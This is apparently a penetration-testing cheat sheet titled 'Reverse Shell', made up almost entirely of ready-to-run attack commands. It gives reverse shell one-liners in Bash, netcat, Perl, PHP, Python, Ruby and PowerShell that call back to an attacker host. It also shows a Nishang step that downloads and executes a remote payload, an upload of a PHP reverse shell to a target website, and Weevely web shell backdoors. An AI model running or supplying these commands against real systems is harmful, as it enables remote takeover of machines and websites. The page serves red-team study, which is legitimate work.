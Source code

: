 ```yaml
---
title: Reverse Shell
desc: 
tags: [Linux, Netcat, Privilege, Reverse, Shell, Windows]
alts: [Linux-Privilege-Escalation, Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## 1. Basic Flow

1. **Open Listener in Your Local Machine**

    First of all, you need to open listener in your local machine.

    ```sh
    nc -lvnp 4444
    ```

2. **Reverse Shell via Command Line**

    - **Bash**

        ```sh
        bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
        ```

    - **Netcat OpenBSD**

        ```sh
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
        ```

    - **Perl**

        ```sh
        perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        ```

    - **PHP**

        ```sh
        php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        ```

    - **Python**

        ```sh
        export RHOST="10.0.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
        ```

    - **Ruby**

        ```sh
        ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        ```

    - **PowerShell**

        ```sh
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```

    - **Nishang**

        **[Nishang](https://github.com/samratashok/nishang){:target="_blank"}** is the Offensive PowerShell for red team, penetration testing and offensive security.

        1. **Preparing the Payload in Your Local Machine**

            First off, copy the payload to the current working directory.

            ```sh
            cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
            mv Invoke-PowerShellTcp.ps1 shell.ps1
            ```

            Add the following code to the final line in the payload (shell.ps1).

            ```powershell
            Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
            ```

        2. **Opening Wev Server in Your Local Machine**

            To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

            ```sh
            python3 -m http.server 8000
            ```

        3. **Downloading the Payload and Executing Reverse Shell**

            In the target machine, download the local-hosted payload and run reverse shell.

            ```sh
            cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
            ```

3. **Reverse Shell via Website**

    -  **PHP Reverse Shell**

        [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"} is an awesome payload against a website using PHP.

        ```sh
        wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

        # Edit $ip and $port to your local ip:port in the payload

        ```

        Then upload the payload, or copy the content and paste to somewhere in the target website directly, and reload the page.

    - **Useful Tools**

        - **[Weevely3](https://github.com/epinna/weevely3){:target="_blank"}**

            A web shell generator.

            1. **Generate Backdoor with Password**

                Credentials required.

                ```sh
                weevely generate <password> ./shell.php
                ```

            2. **Upload the Payload to Target Website and Execute Commands**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password> whoami
                ```

            3. **Get a Shell**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password>

                ```

4. **Upgrade to a Full Functional Shell**

    After successful reverse shell, it's recommended to make the shell to be more elegant.

    ```sh
    SHELL=/bin/bash script -q /dev/null
    # or
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```

    The commands below make "your" shell even more perfect.

    ```sh
    Ctrl+z
    stty raw -echo;fg
    Enter x2
    export TERM=xterm
    ```

<br />

## 2. Pwncat

**[Pwncat](https://pwncat.org/){:target="_blank"}** is a reverse and bind shell handler.

